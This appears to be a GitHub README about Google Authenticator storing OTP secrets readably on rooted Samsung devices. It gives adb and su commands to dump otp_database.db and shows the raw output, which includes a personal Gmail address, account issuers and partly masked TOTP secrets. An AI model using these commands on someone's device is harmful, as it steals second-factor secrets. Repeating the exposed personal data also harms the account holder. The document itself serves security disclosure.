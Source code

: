 ## Google Authenticator Security Gap


Commands (Android-Platform-Tools 35.02 Windows 11 x64 24H2) on Rooted S22 (SM-S901B) & Galaxy Tab A (SM-T510)<br>

adb devices<br>
adb shell<br>
su<br>
cat /data/data/com.google.android.apps.authenticator2/files/accounts/1/otp_database.db<br>



##  Galaxy Tab A (SM-T510_DBT_T510XXU5CWA1).
########################################<br>

Microsoft Windows [Version 10.0.26100.3624]<br>
(c) Microsoft Corporation. Alle Rechte vorbehalten.<br>

C:\Users\wg-23>adb devices<br>
* daemon not running; starting now at tcp:5037<br>
* daemon started successfully<br>
List of devices attached<br>
5200xxxxxdf267bb        device<br>


C:\Users\wg-23>adb shell<br>
tdgsi_a64_ab:/ $ su<br>
tdgsi_a64_ab:/ # cat<br> /data/data/com.google.android.apps.authenticator2/files/accounts/1/otp_database.db<br>

�H�Hl�!�tableotp_tableotp_tableCREATE TABLE otp_table(ordering INTEGER PRIMARY KEY, unique_id TEXT UNIQUE NOT NULL, name TEXT NOT NULL, issuer TEXT, secret TEXT,<br> otp_type TEXT, counter INTEGER, timestamp INTEGER, is_deleted INTEGER, algorithm_deleted TEXT NOT NULL, digits_deleted<br> INTEGER)1Eindexsqlite_autoindex_otp_table_1otp_tablW--ctableandroid_metadataand��de_DEtadataCREATE TABLE android_metadata (locale TEXT)<br>
�x�3<br>
3�4f46851739457540000308950174IONOSlwU9YkU1nqQvT4NQJXk2v00000jD440+4arrwLTVqAra6iK5sC2cWiGnq3AXziitht12ka36M4cP<br>
Ztwz<br>
3%�6ea3c21700008035560systemxx23xxFacebookKxHOcp2iC22lGMp00000FEuw7mY3oD3qL4f5tYV7hLMaBRkOE7YuCsNgL/2BC2Vowy/FnugOG8q2<br>
lqGX<br>
3!60048d1000084303127Systemx23xGitHub/MnLeNSQ0BwDcOPd8rPOj+0000hCtin9EtHPpumD1ZUb7qFGMxlZ9TV49bg=<br>
totp��7�<br>
3A�ae149d1000068135011stevenschloeffel@gmail.comGooglefv9W+oXJrA0000F+k8AJCAJCDmaApWrtn7waiLF3j/aqRt6KzyWjWw7zPZhWvcyMSnZ2fxlvYPcE<br>
uEyr
3-�41b0881000067899751system23@HiDriveIONOS94NM270000mfzVqTUSDXF7+m6bYqJE6C6W8f/RJhLRJ3RdOeGK3SRW3F6QbjLHW72GW75YzMG6UL<br>
sqw4<br>
3#!6f9c391000069666298 stevenx23xXDA ForumsmQjLrwuvsauJ1z0000fVxYTmVCESU2aheDQ/xIejHUNDLE1Xs2XArc8tBUA=<br>
totp�p�FHmacSHA1<br>
q�q����34f400003945754571236ea3c21728768035560360048d17030000031273ae149d1728768135011341b08817287678997513    6f9c391000069666298<br>


##  Galaxy S22 (SM-S901B_EUX_S901BXXSDEYB1).
########################################<br>




